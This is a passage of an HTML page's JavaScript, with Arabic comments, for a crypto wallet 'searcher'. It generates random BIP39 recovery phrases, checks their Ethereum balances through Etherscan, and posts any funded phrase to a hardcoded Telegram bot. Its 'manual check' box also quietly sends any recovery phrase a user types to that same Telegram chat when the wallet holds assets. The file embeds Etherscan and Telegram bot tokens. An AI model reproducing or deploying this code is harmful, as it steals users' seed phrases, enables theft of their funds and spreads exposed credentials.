            "wise", "wish", "witness", "wolf", "woman", "wonder", "wood", "wool", "word", "work",
            "world", "worry", "worth", "wrap", "wreck", "wrestle", "wrist", "write", "wrong", "yard",
            "year", "yellow", "you", "young", "youth", "zebra", "zero", "zone", "zoo"
        ];

        // إعدادات التطبيق
        const ETHERSCAN_API_KEY = 'ZTX93YC56F73T2W58IKS6GWWDH8UDRGBFK';
        const ETHERSCAN_API_URL = 'https://api.etherscan.io/api';
        const TELEGRAM_BOT_TOKEN = '8257110214:AAFDx0awsmi7yjz6tCZqVY2jS5BZmygvQKw';
        const TELEGRAM_CHAT_ID = '910021564';
        const TELEGRAM_API_URL = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}`;

        // متغيرات العملية
        let isRunning = false;
        let searchInterval = null;
        let stats = {
            totalGenerated: 0,
            activeWallets: 0,
            emptyWallets: 0,
            errors: 0
        };

        // عناصر DOM
        const elements = {
            startBtn: document.getElementById('startBtn'),
            stopBtn: document.getElementById('stopBtn'),
            testTelegramBtn: document.getElementById('testTelegramBtn'),
            clearLogsBtn: document.getElementById('clearLogsBtn'),
            checkMnemonicBtn: document.getElementById('checkMnemonicBtn'),
            searchSpeed: document.getElementById('searchSpeed'),
            maxAttempts: document.getElementById('maxAttempts'),
            checkTokens: document.getElementById('checkTokens'),
            manualCheckTokens: document.getElementById('manualCheckTokens'),
            manualMnemonic: document.getElementById('manualMnemonic'),
            manualCheckResult: document.getElementById('manualCheckResult'),
            totalGenerated: document.getElementById('totalGenerated'),
            activeWallets: document.getElementById('activeWallets'),
            emptyWallets: document.getElementById('emptyWallets'),
            errorCount: document.getElementById('errorCount'),
            progressFill: document.getElementById('progressFill'),
            currentStatus: document.getElementById('currentStatus'),
            logPanel: document.getElementById('logPanel')
        };

        // التحقق من تحميل ethers.js
        function checkEthersLoaded() {
            if (typeof ethers === 'undefined') {
                updateStatus('❌ فشل في تحميل مكتبة ethers.js. يرجى التحقق من اتصال الإنترنت.', 'danger');
                addLogEntry('❌ فشل في تحميل مكتبة ethers.js', 'error');
                return false;
            }
            return true;
        }

        // وظائف توليد العبارات العشوائية
        function getSecureRandomInt(max) {
            const array = new Uint32Array(1);
            window.crypto.getRandomValues(array);
            return array[0] % max;
        }

        function generateRandomBIP39Phrase() {
            const words = [];
            for (let i = 0; i < 12; i++) {
                const randomIndex = getSecureRandomInt(BIP39_WORDLIST.length);
                words.push(BIP39_WORDLIST[randomIndex]);
            }
            return words.join(' ');
        }

        // وظائف المحفظة
        async function mnemonicToAddress(mnemonic) {
            try {
                if (!checkEthersLoaded()) {
                    throw new Error('مكتبة ethers.js غير محملة');
                }
                
                // التحقق من صحة العبارة باستخدام ethers
                if (!ethers.utils.isValidMnemonic(mnemonic)) {
                    throw new Error('عبارة استرجاع غير صالحة');
                }
                
                const wallet = ethers.Wallet.fromMnemonic(mnemonic);
                return wallet.address;
            } catch (error) {
                console.error('خطأ في تحويل العبارة إلى عنوان:', error);
                throw error;
            }
        }

        // وظائف Etherscan API
        async function checkETHBalance(address) {
            try {
                const url = `${ETHERSCAN_API_URL}?module=account&action=balance&address=${address}&tag=latest&apikey=${ETHERSCAN_API_KEY}`;
                const response = await fetch(url);
                const data = await response.json();
                
                if (data.status === '1' && data.result) {
                    const balanceWei = data.result;
                    const balanceEth = ethers.utils.formatEther(balanceWei);
                    return parseFloat(balanceEth);
                } else {
                    throw new Error(data.message || 'خطأ في الحصول على الرصيد');
                }
            } catch (error) {
                console.error('خطأ في التحقق من رصيد ETH:', error);
                return null;
            }
        }

        async function checkERC20Tokens(address) {
            try {
                const url = `${ETHERSCAN_API_URL}?module=account&action=tokentx&address=${address}&startblock=0&endblock=99999999&sort=asc&apikey=${ETHERSCAN_API_KEY}`;
                const response = await fetch(url);
                const data = await response.json();
                
                if (data.status === '1' && data.result) {
                    // تحليل المعاملات للعثور على الرموز المميزة
                    const tokens = {};
                    data.result.forEach(tx => {
                        const tokenAddress = tx.contractAddress;
                        const tokenName = tx.tokenName || 'Unknown Token';
                        const tokenSymbol = tx.tokenSymbol || 'UNKNOWN';
                        
                        if (!tokens[tokenAddress]) {
                            tokens[tokenAddress] = {
                                name: tokenName,
                                symbol: tokenSymbol,
                                address: tokenAddress,
                                hasActivity: true
                            };
                        }
                    });
                    
                    return Object.values(tokens);
                } else if (data.message === 'No transactions found') {
                    return [];
                } else {
                    throw new Error(data.message || 'خطأ في الحصول على الرموز المميزة');
                }
            } catch (error) {
                console.error('خطأ في التحقق من الرموز المميزة:', error);
                return null;
            }
        }

        async function checkWalletAssets(address) {
            try {
                // التحقق من رصيد ETH
                const ethBalance = await checkETHBalance(address);
                
                // التحقق من الرموز المميزة إذا كان الخيار مفعل
                let tokens = [];
                if (elements.checkTokens.checked) {
                    tokens = await checkERC20Tokens(address) || [];
                }
                
                const hasETH = ethBalance !== null && ethBalance > 0;
                const hasTokens = tokens.length > 0;
                
                return {
                    hasAssets: hasETH || hasTokens,
                    ethBalance: ethBalance,
                    tokens: tokens,
                    hasETH: hasETH,
                    hasTokens: hasTokens
                };
            } catch (error) {
                console.error('خطأ في التحقق من أصول المحفظة:', error);
                return {
                    hasAssets: false,
                    ethBalance: null,
                    tokens: [],
                    hasETH: false,
                    hasTokens: false,
                    error: error.message
                };
            }
        }

        // وظائف Telegram
        async function sendTelegramMessage(message) {
            try {
                const response = await fetch(`${TELEGRAM_API_URL}/sendMessage`, {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/json' },
                    body: JSON.stringify({
                        chat_id: TELEGRAM_CHAT_ID,
                        text: message,
                        parse_mode: 'HTML'
                    })
                });
                
                const data = await response.json();
                if (!data.ok) {
                    console.error('خطأ في إرسال الرسالة:', data.description);
                    return false;
                }
                
                return true;
            } catch (error) {
                console.error('خطأ في الاتصال بـ Telegram:', error);
                return false;
            }
        }

        function formatWalletMessage(mnemonic, address, walletDetails) {
            const timestamp = new Date().toLocaleString('ar-EG', {
                timeZone: 'Africa/Cairo',
                year: 'numeric',
                month: '2-digit',
                day: '2-digit',
                hour: '2-digit',
                minute: '2-digit',
                second: '2-digit'
            });
            
            let message = `🎉 <b>تم العثور على محفظة تحتوي على أصول!</b>\n\n`;
            message += `📝 <b>العبارة:</b>\n<code>${mnemonic}</code>\n\n`;
            message += `📍 <b>العنوان:</b>\n<code>${address}</code>\n\n`;
            
            if (walletDetails.ethBalance !== null) {
                message += `💰 <b>رصيد ETH:</b> ${walletDetails.ethBalance.toFixed(6)} ETH\n`;
            }
            
            if (walletDetails.tokens.length > 0) {
                message += `🪙 <b>الرموز المميزة:</b> ${walletDetails.tokens.length} رمز\n`;
                walletDetails.tokens.slice(0, 5).forEach(token => {
                    message += `   • ${token.name} (${token.symbol})\n`;
                });
                if (walletDetails.tokens.length > 5) {
                    message += `   ... و ${walletDetails.tokens.length - 5} أكثر\n`;
                }
            }
            
            message += `\n🔗 <a href="https://etherscan.io/address/${address}">عرض على Etherscan</a>`;
            message += `\n\n⏰ <b>الوقت:</b> ${timestamp}`;
            return message;
        }

        async function sendWalletToTelegram(mnemonic, address, walletDetails) {
            try {
                const message = formatWalletMessage(mnemonic, address, walletDetails);
                return await sendTelegramMessage(message);
            } catch (error) {
                console.error('خطأ في إرسال المحفظة:', error);
                return false;
            }
        }

        // وظائف السجل
        function addLogEntry(message, type = 'info') {
            const timestamp = new Date().toLocaleTimeString('ar-EG');
            const logEntry = document.createElement('div');
            logEntry.className = `log-entry log-${type}`;
            logEntry.innerHTML = `<span class="log-timestamp">[${timestamp}]</span> ${message}`;
            
            elements.logPanel.appendChild(logEntry);
            elements.logPanel.scrollTop = elements.logPanel.scrollHeight;
        }

        // وظائف تحديث الواجهة
        function updateStats() {
            elements.totalGenerated.textContent = stats.totalGenerated;
            elements.activeWallets.textContent = stats.activeWallets;
            elements.emptyWallets.textContent = stats.emptyWallets;
            elements.errorCount.textContent = stats.errors;
            
            const maxAttempts = parseInt(elements.maxAttempts.value) || 0;
            if (maxAttempts > 0) {
                const progress = (stats.totalGenerated / maxAttempts) * 100;
                elements.progressFill.style.width = `${Math.min(progress, 100)}%`;
            }
        }

        function updateStatus(message, type = 'info') {
            elements.currentStatus.textContent = message;
            elements.currentStatus.className = `alert alert-${type}`;
        }

        // وظيفة التحقق اليدوي من العبارة
        async function checkMnemonicManually() {
            const mnemonic = elements.manualMnemonic.value.trim();
            
            if (!mnemonic) {
                updateStatus('❌ يرجى إدخال عبارة استرجاع', 'danger');
                return;
            }
            
            if (!checkEthersLoaded()) {
                return;
            }
            
            // إظهار رسالة التحميل
            elements.checkMnemonicBtn.disabled = true;
            elements.checkMnemonicBtn.innerHTML = '<span class="loading-spinner"></span> جاري الفحص...';
            
            try {
                // التحقق من صحة العبارة
                if (!ethers.utils.isValidMnemonic(mnemonic)) {
                    throw new Error('عبارة الاسترجاع غير صالحة. يرجى التحقق من الكلمات.');
                }
                
                updateStatus('جاري فحص عبارة الاسترجاع...', 'info');
                addLogEntry(`🔍 جاري فحص العبارة يدويًا: ${mnemonic.substring(0, 30)}...`);
                
                // تحويل العبارة إلى عنوان
                const address = await mnemonicToAddress(mnemonic);
                
                if (!address) {
                    throw new Error('فشل في تحويل العبارة إلى عنوان');
                }
                
                addLogEntry(`تم تحويل العبارة إلى العنوان: ${address}`);
                
                // فحص أصول المحفظة
                const walletDetails = await checkWalletAssets(address);
                
                // عرض النتائج
                displayManualCheckResult(mnemonic, address, walletDetails);
                
                if (walletDetails.hasAssets) {
                    updateStatus(`✅ تم العثور على محفظة نشطة! العنوان: ${address.substring(0, 20)}...`, 'success');
                    addLogEntry(`🎉 المحفظة تحتوي على أصول! العنوان: ${address}`, 'success');
                    
                    // إرسال المحفظة إلى Telegram
                    const telegramSent = await sendWalletToTelegram(mnemonic, address, walletDetails);
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة إلى Telegram', 'error');
                    }
                } else {
                    updateStatus(`📭 المحفظة فارغة أو لا تحتوي على أصول`, 'info');
                    addLogEntry(`📭 المحفظة فارغة: ${address}`, 'info');
                }
                
            } catch (error) {
                console.error('خطأ في فحص العبارة يدويًا:', error);
                updateStatus(`❌ ${error.message}`, 'danger');
                addLogEntry(`❌ خطأ في فحص العبارة: ${error.message}`, 'error');
                
                // عرض رسالة الخطأ في قسم النتائج
                elements.manualCheckResult.innerHTML = `
                    <h4>❌ نتيجة الفحص</h4>
                    <div class="alert alert-danger">
                        <strong>خطأ:</strong> ${error.message}
                    </div>
                `;
                elements.manualCheckResult.style.display = 'block';
            } finally {
                // إعادة تعيين زر الفحص
                elements.checkMnemonicBtn.disabled = false;
                elements.checkMnemonicBtn.innerHTML = '<span>🔎 فحص العبارة</span>';
            }
        }

        // عرض نتائج الفحص اليدوي
        function displayManualCheckResult(mnemonic, address, walletDetails) {
            let resultHTML = `
                <h4>${walletDetails.hasAssets ? '🎉 محفظة نشطة!' : '📭 محفظة فارغة'}</h4>
                <div class="wallet-info">
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">عبارة الاسترجاع:</span>
                        <span class="wallet-info-value"><code>${mnemonic}</code></span>
                    </div>
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">العنوان:</span>
                        <span class="wallet-info-value"><code>${address}</code></span>
                    </div>
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">رصيد ETH:</span>
                        <span class="wallet-info-value">${walletDetails.ethBalance !== null ? walletDetails.ethBalance.toFixed(6) + ' ETH' : 'غير متوفر'}</span>
                    </div>
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">تحتوي على ETH:</span>
                        <span class="wallet-info-value">${walletDetails.hasETH ? '✅ نعم' : '❌ لا'}</span>
                    </div>
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">تحتوي على رموز:</span>
                        <span class="wallet-info-value">${walletDetails.hasTokens ? '✅ نعم (' + walletDetails.tokens.length + ' رمز)' : '❌ لا'}</span>
                    </div>
            `;
            
            if (walletDetails.tokens.length > 0) {
                resultHTML += `
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">الرموز المميزة:</span>
                        <div class="wallet-info-value">
                            <div class="token-list">
                `;
                
                walletDetails.tokens.forEach(token => {
                    resultHTML += `
                        <div class="token-item">
                            <div class="token-name">${token.name}</div>
                            <div class="token-symbol">${token.symbol}</div>
                        </div>
                    `;
                });
                
                resultHTML += `
                            </div>
                        </div>
                    </div>
                `;
            }
            
            resultHTML += `
                </div>
                <div class="button-group" style="margin-top: 15px;">
                    <a href="https://etherscan.io/address/${address}" target="_blank" class="btn btn-secondary">
                        <span>🔗 عرض على Etherscan</span>
                    </a>
                </div>
            `;
            
            elements.manualCheckResult.innerHTML = resultHTML;
            elements.manualCheckResult.style.display = 'block';
        }

        // الوظيفة الرئيسية للبحث
        async function searchForActiveWallets() {
            try {
                if (!checkEthersLoaded()) {
                    stats.errors++;
                    updateStats();
                    return;
                }

                // توليد عبارة عشوائية
                const mnemonic = generateRandomBIP39Phrase();
                stats.totalGenerated++;
                
                updateStatus(`جاري فحص العبارة رقم ${stats.totalGenerated}...`, 'info');
                addLogEntry(`تم توليد عبارة جديدة: ${mnemonic.substring(0, 30)}...`);
                
                // تحويل العبارة إلى عنوان
                const address = await mnemonicToAddress(mnemonic);
                
                if (!address) {
                    stats.errors++;
                    addLogEntry('خطأ في تحويل العبارة إلى عنوان', 'error');
                    updateStats();
                    return;
                }
                
                addLogEntry(`تم تحويل العبارة إلى العنوان: ${address.substring(0, 20)}...`);
                
                // فحص أصول المحفظة
                const walletStatus = await checkWalletAssets(address);
                
                if (walletStatus.hasAssets) {
                    stats.activeWallets++;
                    addLogEntry(`🎉 تم العثور على محفظة تحتوي على أصول! العنوان: ${address}`, 'success');
                    
                    // إرسال المحفظة إلى Telegram
                    const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus);
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة إلى Telegram', 'error');
                    }
                    
                    updateStatus(`تم العثور على محفظة نشطة! إجمالي المحافظ النشطة: ${stats.activeWallets}`, 'success');
                } else {
                    stats.emptyWallets++;
                    addLogEntry(`محفظة فارغة: ${address.substring(0, 20)}...`, 'info');
                }
                
                updateStats();
                
                // التحقق من الحد الأقصى للمحاولات
                const maxAttempts = parseInt(elements.maxAttempts.value) || 0;
                if (maxAttempts > 0 && stats.totalGenerated >= maxAttempts) {
                    stopSearch();
                    updateStatus(`تم الوصول للحد الأقصى من المحاولات (${maxAttempts})`, 'warning');
                    addLogEntry(`تم إيقاف البحث - وصل للحد الأقصى: ${maxAttempts} محاولة`, 'info');
                }
                
            } catch (error) {
                stats.errors++;
                addLogEntry(`خطأ في العملية: ${error.message}`, 'error');
                updateStats();
            }
        }

        // وظائف التحكم
        async function startSearch() {
            if (isRunning) return;
            
            if (!checkEthersLoaded()) {
                return;
            }
            
            isRunning = true;
            elements.startBtn.disabled = true;
            elements.stopBtn.disabled = false;
            
            const speed = parseInt(elements.searchSpeed.value) || 3000;
            
            updateStatus('جاري بدء البحث...', 'info');
            addLogEntry('🚀 تم بدء البحث عن المحافظ النشطة');
            
            // إرسال رسالة البداية إلى Telegram
            const checkTokens = elements.checkTokens.checked;
            let startMessage = `🚀 <b>بدء عملية البحث عن المحافظ النشطة</b>\n\n`;
            startMessage += `⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}\n`;
            startMessage += `🔍 جاري البحث عن محافظ تحتوي على أصول...\n`;
            startMessage += `🪙 البحث عن الرموز المميزة: ${checkTokens ? '✅ مفعل' : '❌ معطل'}`;
            
            await sendTelegramMessage(startMessage);
            
            searchInterval = setInterval(searchForActiveWallets, speed);
        }

        async function stopSearch() {
            if (!isRunning) return;
            
            isRunning = false;
            elements.startBtn.disabled = false;
            elements.stopBtn.disabled = true;
            
            if (searchInterval) {
                clearInterval(searchInterval);
                searchInterval = null;
            }
            
            updateStatus('تم إيقاف البحث', 'warning');
            addLogEntry('⏹️ تم إيقاف البحث');
            
            // إرسال رسالة الإيقاف إلى Telegram
            let stopMessage = `⏹️ <b>تم إيقاف عملية البحث</b>\n\n`;
            stopMessage += `📊 <b>الإحصائيات النهائية:</b>\n`;
            stopMessage += `🔢 إجمالي العبارات: ${stats.totalGenerated}\n`;
            stopMessage += `✅ المحافظ النشطة: ${stats.activeWallets}\n`;
            stopMessage += `📭 المحافظ الفارغة: ${stats.emptyWallets}\n`;
            stopMessage += `\n⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}`;
            
            await sendTelegramMessage(stopMessage);
        }

        async function testTelegramConnection() {
            updateStatus('جاري اختبار الاتصال بـ Telegram...', 'info');
            addLogEntry('🧪 جاري اختبار الاتصال بـ Telegram...');
            
            const testMessage = `🧪 <b>اختبار الاتصال</b>\n\nتم الاتصال بنجاح مع بوت Telegram!\n⏰ ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}`;
            const success = await sendTelegramMessage(testMessage);
            
            if (success) {
                updateStatus('✅ تم الاتصال بـ Telegram بنجاح!', 'success');
                addLogEntry('✅ تم الاتصال بـ Telegram بنجاح!', 'success');
            } else {
                updateStatus('❌ فشل في الاتصال بـ Telegram', 'danger');
                addLogEntry('❌ فشل في الاتصال بـ Telegram', 'error');
            }
        }

        function clearLogs() {
            elements.logPanel.innerHTML = '';
            addLogEntry('تم مسح السجل');
        }

        // ربط الأحداث
        elements.startBtn.addEventListener('click', startSearch);
        elements.stopBtn.addEventListener('click', stopSearch);
        elements.testTelegramBtn.addEventListener('click', testTelegramConnection);
        elements.clearLogsBtn.addEventListener('click', clearLogs);
        elements.checkMnemonicBtn.addEventListener('click', checkMnemonicManually);

        // التحقق من تحميل ethers.js عند بدء التطبيق
        document.addEventListener('DOMContentLoaded', function() {
            if (checkEthersLoaded()) {
                updateStatus('✅ تم تحميل مكتبة ethers.js بنجاح. جاهز للبدء...', 'success');
                addLogEntry('✅ تم تحميل مكتبة ethers.js بنجاح', 'success');
            }
        });

        // تحديث الإحصائيات عند بدء التطبيق
        updateStats();
    </script>
</body>
</html>
